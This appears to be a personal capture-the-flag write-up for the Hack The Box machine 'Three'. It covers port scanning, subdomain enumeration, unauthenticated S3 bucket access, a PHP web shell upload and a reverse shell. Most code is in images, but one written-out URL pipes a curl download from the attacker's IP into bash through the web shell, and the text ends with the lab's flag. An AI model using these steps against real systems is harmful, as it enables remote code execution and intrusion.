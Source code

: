 ```yaml
---
title: 'Three:'
updated: 2022-10-17T21:40:49.0000000+01:00
created: 2022-09-22T20:33:46.0000000+01:00
---
```


How many TCP ports are open?:

*2 TCP (Transmission Control Protocol) ports are open, as indicated by our nmap scan.*

What is the domain of the email address provided in the "Contact" section of the website?

*Looking at the contents section of the website reveals:*
![image1](../../../../../_resources/image1-60.png)
*So The domain name is @thetoppers.htb*

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

*We use /etc/hosts to resolve hostnames to IP addresses, [read more.](https://debian-handbook.info/browse/stable/sect.hostname-name-service.html)*

Which sub-domain is discovered during further enumeration?

*We receive this list:*

![image2](../../../../../_resources/image2-45.png)

s3.thetoppers.htb is the answer since, the other sub-domains have had a bad request (400) whilst the actual domain has a bad gateway. Meaning we need to add it to our hosts file.

echo "IP s3.thetoppers.htb" \| sudo tee -a /etc/hosts

This allows us to access the s3.thetopper.htb domain. Which appears to involve AWS. We are able to interact with this AWS S3 Bucket using awscli.

What is an S3 bucket?:

An S3 bucket is a **cloud-based object storage service**. AWS S3 Buckets can store many different things, but are often used to store:

- Backup files
- Media Hosting
- Software Delivery
- Static Websites

Getting the Reverse Shell:

To get the reverse shell we need to trigger the remote host to connect back to our local machines IP on a specified listening port.

1.  Get the Tun0 IP address of our local machine
    1.  We can do this using *ifconfig*
2.  We can create a shell script that will connect the remote host to our machine.
    1.  This is referred to as a **bash reverse shell payload**
3.  Make our port listen for the remote host
    1.  We will use *ncat* on port 1337 for this.
4.  Start a web server on our local machine and host the bash file.
    1.  The web server needs to be run from the directory that contains the reverse shell file.
5.  We then use the curl utility and pipe it into bash and execute it.

Then you have a reverse shell.

Reverse Shell Code:

1.  ![image3](../../../../../_resources/image3-38.png)

2\.
![image4](../../../../../_resources/image4-30.png)

3\.
![image5](../../../../../_resources/image5-20.png)

4\.
![image6](../../../../../_resources/image6-12.png)

5\.
[http://thetoppers.htb/shell.php?cmd=curl%2010.10.17.8:8000/shell.sh\|bash](http://thetoppers.htb/shell.php?cmd=curl%2010.10.17.8:8000/shell.sh|bash)

Thus we have a reverse shell, we can then locate the flag:
![image7](../../../../../_resources/image7-9.png)

Firstly, lets scan the machine using nmap to look at all available ports, this gives us the following information:
![image8](../../../../../_resources/image8-7.png)

![image9](../../../../../_resources/image9-6.png)

Looking at the IP using a web browser shows a band themed website.

In order to progress it looks like we need to be able to resolve the hostname from the IP address. Editing the hosts file within etc to:
![image10](../../../../../_resources/image10-4.png)

Allows us to access the website from its domain name. Trying nmap again but on the domain gives us nothing new. We need to use a tool like **wfuzz** or **ffuf** (Fuzz Faster U Fool)**.**

Sub-domain enumeration:

A sub-domain is a piece of additional information that is added to the beginning of a website's domain name. It allows websites to separate and organize content for a specific function.

Normal Website: **Hackthebox.com**
CTF subdomain: **Ctf.hackthebox.com**

Even though the URL changes you are still on the same webpage, we can use tools like dirb, dirbuster, GoBuster, wfuzz, ffuf and feroxbuster + a sub-domain wordlist to scan for the most common sub-domains.

Using GoBuster:

To scan for additional sub-domains we would use:
![image11](../../../../../_resources/image11-3.png)

With the flags representing:
![image12](../../../../../_resources/image12-1.png)

Accessing an S3 Bucket:

Occasionally AWS servers can be configured to not check for authentication when accessing them, you can just fill every field with temp when trying to log in as an unauthorized user.
![image13](../../../../../_resources/image13.png)

We can list all S3 buckets using ls:
![image14](../../../../../_resources/image14.png)

Since in our example there is only 1 bucket we get:
![image15](../../../../../_resources/image15.png)

We can also use ls to find objects and common prefixes. In our example we get the following:
![image16](../../../../../_resources/image16.png)

Copying Files Using aswcli:

Now we know that the root of a web server (Webroot) is running on the machine. We can upload a php shell file to the bucket, then visit the page in our browser and achieve remote code execution.

We can use a single line of php code and get access to the shell
![image17](../../../../../_resources/image17.png)
We then are able to upload it to the AWS Bucket:
![image18](../../../../../_resources/image18.png)

Now that we can execute code on the box, we can get the reverse shell.

a980d99281a28d638ac68b9bf9453c2b
